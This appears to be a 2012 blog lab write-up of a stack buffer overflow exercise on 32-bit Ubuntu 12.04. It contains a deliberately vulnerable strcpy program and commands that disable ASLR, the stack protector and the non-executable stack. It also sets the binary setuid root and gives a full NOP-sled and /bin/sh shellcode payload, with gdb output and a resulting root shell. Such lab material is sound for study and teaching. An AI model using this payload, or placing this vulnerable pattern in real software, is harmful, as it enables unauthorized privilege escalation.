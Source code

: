 ```yaml
---
title: "Buffer Overflow Exercise in Ubuntu"
date: 2012-05-22
categories:
  - Exploit 
tags:
  - Buffer Overflow
  - Ubuntu
toc: false
---
```

In Ubuntu system, there is some protection scheme deployed to avoid buffer overflow attacks. Before deploy the attach, we should disable all the kernel functionality that protect the system from buffer overflow.

The program I am going to use is a small piece of c code that uses a strcpy function. The program is shown bellow. The machine I am using is a VirtualBox Ubuntu 12.04 32bit hosted on a 64bit Windows 7.

```c
/* file: bof.c */
/* This is a vulnerable program that can be exploited easily */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
 
int main(int argc, char *argv[]){
   char buffer[100];
   strcpy(buffer,  argv[1]);
   return 0;
}
```

First, Ubuntu and several other Linux-based systems use address space layout randomization (ASLR) to fuzz the starting address of heap and stack. This makes guessing the exact addresses difficult. For simplicity reason, we can turn off the protection by the following command
```bash
sysctl -w kernel.randomize_va_space=0
# or
echo 0 > /proc/sys/kernel/randomize_va_space
```
This will disable the ASLR buffer overflow mechanism.

A bit about Address Space Layout Randomisation (ASLR) [^Ubuntu ASLR]

> ASLR is implemented by the kernel and the ELF loader by randomising the location of memory allocations (stack, heap, shared libraries, etc). This makes memory addresses harder to predict when an attacker is attempting a memory-corruption exploit. ASLR is controlled system-wide by the value of /proc/sys/kernel/randomize_va_space. Prior to Ubuntu 8.10, this defaulted to "1" (on). In later releases that included brk ASLR, it defaults to "2" (on, with brk ASLR).


Next is the gcc options for making the buffer overflow practical. The first one is StackGuard and the second is DEP, which stand for Data Execution Prevention. We can "turn on" these options in compiling the vulnerable program and make the overrun return address can be realized and the code resides in the buffer can be executed.

A bit about Data Execution Prevention (DEP) [^Disable DEP]

> Another defense mechanism that has been implemented is called DEP, which stands for Data Execution Prevention. This is an attempt to prevent the return address from being changed into something in the same memory space as the data, and also prevent machine code (the code that buffer overflows are crafted in) from being placed into data segments. Return Oriented Programming (ROP) is used when defeating modern DEP.

> To combat additional filters, attackers have developed polymorphic and multi-architecture alphanumeric shellcode and polymorphic ASCII machine code and shellcodes. ASCII and Polymorphic ASCII code looks to many filters like normal user input instead of malicious binary or machine code.

Following gcc command removes the stack protection and enable the code to execute from stack. Disable the stack protection is by the gcc option `-fno-stack-protector`, and the `-z execstack` is making the code can execute from the stack.

```bash
gcc -g -fno-stack-protector -z execstack bof.c -o bof
```

Setuid binary is used for this example to ensure the retrieval of a root shell. Set up the bof binary for setuid below:

```bash
rui@rui-VMUbuntu:~/code/vul_impl$ sudo chown root:root ./bof
rui@rui-VMUbuntu:~/code/vul_impl$ sudo chmod 4755 ./bof
```

Then we can check how many bytes it needs to overwrite the return address. We run the executable with 100 chars first, and then gradually increase the string parameter by 4 bytes.  As shown in the following, we need 116 = 112 + 4 bytes to overwrite the return address, in which the last 4 bytes is the return address we are want to jump to, because it is an address space in the stack that holds our shellcode.

```bash
rui@rui-VMUbuntu:~/code/vul_impl$ ./bof `perl -e 'print "A"x104'`
rui@rui-VMUbuntu:~/code/vul_impl$ ./bof `perl -e 'print "A"x108'`
rui@rui-VMUbuntu:~/code/vul_impl$ ./bof `perl -e 'print "A"x112'`
Illegal instruction (core dumped)
```

We are going to use the following large string to overflow the buffer. The string length is 60(nop) + 45(shellcode) + 7(rubbish) + 4 = 116 bytes.

```bash
`ruby -e 'print "\x90"*60,"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh", "A"*7, "\x20\xf5\xff\xbf"'`
```

The last 4 bytes is the address for the `nop` bytes resides in the buffer. You can first put some random bytes such as "\x41\x41\x41\x41". Then to using gdb to peek the address space, to find where the "\x90" is, and substitute for the last 4 bytes, in this experiment, it is "\x20\xf5\xff\xbf". Here is how we get there.

```bash
rui@rui-VMUbuntu:~/code/vul_impl$ gdb -q bof
Reading symbols from /home/rui/code/vul_impl/bof...done.
(gdb) break main
Breakpoint 1 at 0x80483ed: file bof.c, line 7.
(gdb) r `ruby -e 'print "\x90"*60,"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh", "A"*7, "\x20\xf5\xff\xbf"'`
Starting program: /home/rui/code/vul_impl/bof `ruby -e 'print "\x90"*60,"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh", "A"*7, "\x20\xf5\xff\xbf"'`

Breakpoint 1, main (argc=3, argv=0xbffff374) at bof.c:7
7    strcpy(buffer,  argv[1]);
(gdb) x/200x $esp
0xbffff250: 0xbffff28f 0xbffff28e 0x00000000 0xb7ff3fdc
0xbffff260: 0xbffff314 0xb7fdd000 0x00000000 0xb7e57053
0xbffff270: 0x0804824c 0x00000000 0x2cb4304e 0x00000001
0xbffff280: 0xbffff4ed 0x0000002f 0xbffff2dc 0xb7fc4ff4
0xbffff290: 0x08048410 0x08049ff4 0x00000003 0x080482dd
0xbffff2a0: 0xb7fc53e4 0x00000005 0x08049ff4 0x08048431
0xbffff2b0: 0xffffffff 0xb7e571a6 0xb7fc4ff4 0xb7e57235
0xbffff2c0: 0xb7fed270 0x00000000 0x08048419 0xb7fc4ff4
0xbffff2d0: 0x08048410 0x00000000 0x00000000 0xb7e3d4d3
0xbffff2e0: 0x00000003 0xbffff374 0xbffff384 0xb7fdc858
0xbffff2f0: 0x00000000 0xbffff31c 0xbffff384 0x00000000
0xbffff300: 0x0804821c 0xb7fc4ff4 0x00000000 0x00000000
0xbffff310: 0x00000000 0xe62392a7 0xde6f76b7 0x00000000
0xbffff320: 0x00000000 0x00000000 0x00000003 0x08048330
0xbffff330: 0x00000000 0xb7ff26a0 0xb7e3d3e9 0xb7ffeff4
0xbffff340: 0x00000003 0x08048330 0x00000000 0x08048351
0xbffff350: 0x080483e4 0x00000003 0xbffff374 0x08048410
0xbffff360: 0x08048480 0xb7fed270 0xbffff36c 0xb7fff918
0xbffff370: 0x00000003 0xbffff4ed 0xbffff509 0xbffff57a
0xbffff380: 0x00000000 0xbffff57e 0xbffff591 0xbffff5bc
0xbffff390: 0xbffff5cc 0xbffff5d7 0xbffff628 0xbffff63a
0xbffff3a0: 0xbffff664 0xbffff66d 0xbffffb8e 0xbffffbc8
0xbffff3b0: 0xbffffbfc 0xbffffc22 0xbffffc58 0xbffffcb6
0xbffff3c0: 0xbffffcc1 0xbffffcf1 0xbffffd0b 0xbffffd71
0xbffff3d0: 0xbffffd80 0xbffffd9c 0xbffffdad 0xbffffdc4
0xbffff3e0: 0xbffffdfd 0xbffffe1c 0xbffffe25 0xbffffe3a
0xbffff3f0: 0xbffffe49 0xbffffe51 0xbffffe7d 0xbffffe89
0xbffff400: 0xbffffeeb 0xbfffff3d 0xbfffff5d 0xbfffff6a
0xbffff410: 0xbfffff84 0xbfffffa6 0xbfffffc7 0x00000000
0xbffff420: 0x00000020 0xb7fdd414 0x00000021 0xb7fdd000
0xbffff430: 0x00000010 0x078bfbff 0x00000006 0x00001000
0xbffff440: 0x00000011 0x00000064 0x00000003 0x08048034
0xbffff450: 0x00000004 0x00000020 0x00000005 0x00000009
0xbffff460: 0x00000007 0xb7fde000 0x00000008 0x00000000
0xbffff470: 0x00000009 0x08048330 0x0000000b 0x000003e8
0xbffff480: 0x0000000c 0x000003e8 0x0000000d 0x000003e8
0xbffff490: 0x0000000e 0x000003e8 0x00000017 0x00000001
0xbffff4a0: 0x00000019 0xbffff4cb 0x0000001f 0xbfffffe0
0xbffff4b0: 0x0000000f 0xbffff4db 0x00000000 0x00000000
0xbffff4c0: 0x00000000 0x00000000 0xe5000000 0x29b0036b
0xbffff4d0: 0x2eec0ce3 0x2df0e10c 0x694c8f9c 0x00363836
0xbffff4e0: 0x00000000 0x00000000 0x00000000 0x6f682f00
---Type <return> to continue, or q <return> to quit---
0xbffff4f0: 0x722f656d 0x632f6975 0x2f65646f 0x5f6c7576
0xbffff500: 0x6c706d69 0x666f622f 0x90909000 0x90909090
0xbffff510: 0x90909090 0x90909090 0x90909090 0x90909090
0xbffff520: 0x90909090 0x90909090 0x90909090 0x90909090
0xbffff530: 0x90909090 0x90909090 0x90909090 0x90909090
0xbffff540: 0x90909090 0x5e1feb90 0x31087689 0x074688c0
0xbffff550: 0xb00c4689 0x8df3890b 0x568d084e 0x3180cd0c
0xbffff560: 0x40d889db 0xdce880cd 0x2fffffff 0x2f6e6962
```

The last step is to use the long string to hack the vulnerable program to get root access to the local machine. We issue the following command with the appropriate return address to overwrite. (the last 4 bytes of the array) You might try any stress in the highlighted address space shown above. I tried twice, and finally get it hacked, the following is the results I got.

```bash
rui@rui-VMUbuntu:~/code/vul_impl$ ./bof `ruby -e 'print "\x90"*60,"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh", "A"*7, "\x20\xf5\xff\xbf"'`
Illegal instruction
rui@rui-VMUbuntu:~/code/vul_impl$ ./bof `ruby -e 'print "\x90"*60,"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh", "A"*7, "\x30\xf5\xff\xbf"'`
# whoami
root
# 
```

To sum it up, several things need to be mention in order to get it work correctly.

1. Disable all the protection mechanisms, including Address Space Layout Randomisation (ASLR), Data Execution Prevention, and `-z execstack` option.
2. The vulnerable program complied executable `bof` should be setuid to root to make sure we get the root access shell.
3. To be patient about finding the return address.

That's it!

[^Ubuntu ASLR]: https://wiki.ubuntu.com/Security/Features/Historical#Address_Space_Layout_Randomisation_.28ASLR.29
[^Disable DEP]: http://www.blackhatacademy.org/security101/Buffer_overflow